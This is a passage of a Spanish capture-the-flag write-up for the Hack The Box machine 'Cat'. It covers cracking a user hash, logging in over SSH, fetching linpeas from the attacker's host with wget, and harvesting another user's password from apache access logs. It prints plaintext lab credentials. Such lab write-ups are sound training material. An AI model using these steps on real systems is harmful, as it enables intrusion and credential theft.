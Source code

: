 Vamos a intentar romper algún hash de los que hemos obtenido.

![rosa-hash](../../img/Cat/rosa-hash.png)

El del usuario `rosa` figura en la base de datos de [crackstation](https://crackstation.net/). Nos intentaremos conectar por `SSH` a la máquina víctima con estas credenciales.

```
ssh rosa@cat.htb
rosa@cat.htb's password: soyunaprincesarosa
```

Hemos podido autenticarnos como `rosa`. Para escalar privilegios, utilizaremos la herramienta [linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20250301-c97fb02a).

La subiremos a la máquina con un servidor `http` con python.

```
python3 -m http.server 80
```

Desde la máquina víctima:

```
wget http://10.10.14.191/linpeas.sh
chmod +x linpeas.sh
```

De entre las secciones que nos reporta, esta nos llama la atención especialmente, ya que podemos leer los logs de apache, donde pueden estar expuestas credenciales de inicio de sesión u otros datos sensibles que envian los usuarios.

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
```

```
/var/log/apache2/access.log
```

Dentro del archivo encontramos la línea:

```
"GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1"
```
